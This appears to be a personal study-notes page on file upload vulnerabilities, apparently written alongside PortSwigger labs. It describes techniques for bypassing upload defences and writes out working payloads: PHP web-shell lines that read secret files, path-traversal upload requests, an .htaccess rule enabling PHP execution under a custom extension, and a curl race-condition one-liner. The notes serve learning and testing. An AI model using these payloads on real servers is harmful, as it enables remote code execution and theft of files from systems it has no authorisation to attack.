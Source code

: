 ```yaml
---
title: File upload
description: My notes on file upload vulnerabilities
---
```

# Overview
As the name suggests, this vulnerability arises when the server doesn't handle the file upload functionality in a safe manner.

### Defenses and Bypasses

#### Content-Type check bypass
Some websites verify the file type by checking the Content-Type header in the image - under the Content-Disposition header - use a header that the server allows, but change the contents of the image to a code you want to execute. This way you can easily bypass this check. (You might need to change the extension of the file)
#### No execution in directory bypass
You might be able to upload a php file or a png image injected with php code to the website, but you notice that the script isn't executing, this is because some websites apply strict rules to directories where user supplied files are stored. One work around is to use path traversal techniques to bypass this restriction by uploading a file on directory upward where no restrictions apply.
```
POST /upload/image HTTP/2
...

------geckoformboundary1e43662b77484e818bb47ae62211c582
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>
------

GET /uploads/shell.php HTTP/2
...

<?php echo file_get_contents('/home/carlos/secret'); ?>
```
Using the path traversal trick:
```
POST /upload/image HTTP/2
...

------geckoformboundary1e43662b77484e818bb47ae62211c582
Content-Disposition: form-data; name="avatar"; filename="../shell.php"
Content-Type: image/png

<?php echo file_get_contents('/home/user/secret'); ?>
------

GET /uploads/../shell.php HTTP/2
...

This_is_a_secret_dont_tell_any_one
```
You may need  to URL-encode the path traversal sequence for this to work.
#### Insufficient black listing 
Generally speaking, black listing is a bad approach to filtering user input. Some websites use black lists to block any attempt at exploitation, you can easily bypass this by tweaking your input (e.g. php -> PhP,php5)
##### Configuration overwrite
If the server allow you to upload a configuration file - Check the name of the file according to the tech stack used -, for example .htaccess for apache. you can then overwrite rules and allow arbitrary file types and let the server treat them as a scripting language - php -.
``` .htaccess
AddType application/x-httpd-php .abumalik
----

GET /uploads/image.abumalik?c=whoami HTTP/2
...
www-data
```
#### General things to try
- Try multiple extensions like `image.php.png` and vice versa
- Add trailing characters like dots and white spaces like `image.php.`
- Use URL-encoding on slashes and dots
- Add semicolon or null byte before the file extension like `image%00.php`
- Use multibyte unicode characters that convert to dots or nullbytes after normalization.
#### Validation of file contents
Some servers validate the contents of the file. for example, jpg files start with `FF D8 FF` and if the file provided doesn't have these bytes the server might reject it. if the check is this simple you can easily bypass it by inserting a comment containing a malicious code to the image.
#### Race condition
If the server stores the file uploaded on the file system for a short time to make sure everything is correct, you can abuse this window - some times milliseconds - and access the file to execute the code. Note that in this method it is not important to try and bypass other protections because we will access the file before the checks occur, use this payload:
```
curl -v -F user=username -F csrf=CSRF TOKEN -F avatar=@./shell.php https://TARGET/my-account/avatar & curl https://TARGET/files/avatars/shell.php
```
user, csrf and avatar are the field names that are sent in the request.
If the server supports uploading images with URLs, There might be a vulnerability. You can create a huge file and put the malicious code at the start and the rest will be padding -A-, you can then access the file and execute the code. The problem with this is that the website might use a randomizer function and the name of the directory where the file is stored temporarily is unknown.
#### Uploading client-side scripts
you may not be able to upload or execute files like php or asp, but you might be able to upload a js, svg or HTML document with the \<script\> tag. with this method you can carry XSS attacks.
#### Parsing vulnerabilities
If the uploading and serving of the file is secure. Your last bet is to check the parsing of the files requested, if you can upload files like .doc or .xls you can try XXE injection attacks.
#### Uploading files using PUT method
If the server supports the PUT method, it's worth to check if you can upload a malicious file and execute it:
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com 
Content-Type: application/x-httpd-php 
Content-Length: 49
<?php echo file_get_contents('/path/to/file'); ?>
```

### Resources
Check the academy for practice at [Portswigger](https://portswigger.net/web-security/file-upload)<br>
Also Owasp have great info as always [Owasp](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)